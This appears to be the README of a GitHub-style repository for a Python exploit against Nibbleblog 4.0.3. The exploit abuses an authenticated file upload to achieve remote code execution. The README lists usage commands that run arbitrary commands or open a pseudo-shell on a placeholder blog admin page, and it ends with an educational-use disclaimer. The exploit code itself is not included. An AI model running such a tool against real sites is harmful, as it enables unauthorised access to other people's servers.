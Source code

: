 # Project Title

Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution (RCE)

## Description

A python3 script for Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution (RCE)

## Getting Started

### Executing program

```
* RCE
```
python3 nibbleblog_4.0.3.py -t http://nibblesrce.com/blog/admin.php -u admin -p password -rce whoami
```
* Pseudo-shell
```
python3 nibbleblog_4.0.3.py -t http://nibblesrce.com/blog/admin.php -u admin -p password -shell
```

## Help

For help menu:
```
python3 nibbleblog_4.0.3.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.